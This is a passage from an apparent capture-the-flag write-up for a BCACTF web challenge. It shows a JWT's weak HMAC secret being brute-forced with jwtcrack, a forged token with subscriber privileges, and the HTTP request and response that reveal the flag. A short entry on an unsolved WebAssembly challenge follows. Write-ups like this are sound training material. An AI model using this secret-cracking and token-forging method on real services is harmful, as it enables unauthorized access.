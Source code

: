 ```
┌──(kali㉿kali)-[~/…/bcactf3/web/tarot2/c-jwt-cracker]
└─$ ./jwtcrack eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc1N1YnNjcmliZXIiOmZhbHNlLCJpYXQiOjE2NTQzMDA1ODd9.FeOzxBet7HJ3ry34my5cDjMnTY2zoRVjPlWAyiAHLS0

Secret is "38r4"
```


I'm lazy so i just entered the secret into [JWT.io]

**image missing**

Request goes:
```
GET /checktoken HTTP/1.1
Host: web.bcactf.com:49202
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc1N1YnNjcmliZXIiOnRydWUsImlhdCI6MTY1NDMwMDU4N30.e2O2Ph8cRm-DEFGz3sbcIhvnGbJ_9jpfWQvcqNK4RdM
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://web.bcactf.com:49202/card.html

```

and response goes:

```
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Set-Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc1N1YnNjcmliZXIiOmZhbHNlLCJpYXQiOjE2NTQzMDA1ODd9.FeOzxBet7HJ3ry34my5cDjMnTY2zoRVjPlWAyiAHLS0; Path=/
Content-Length: 46
ETag: W/"2e-jFXDDuXnOxuEclnJMK02hg8gaCc"
Date: Sat, 04 Jun 2022 19:13:52 GMT
Connection: close

{"message":"bcactf{hm@c_256_yeeeeah_24u9402}"}
```


### Wasm Prison
>To leave the prison, enter the flag.
	Hint 1 of 2:
What is call_indirect
	Hint 2 of 2:
Bruteforce can sometimes be an option

DNF

[Solution by awt-256](https://ctftime.org/writeup/34226)



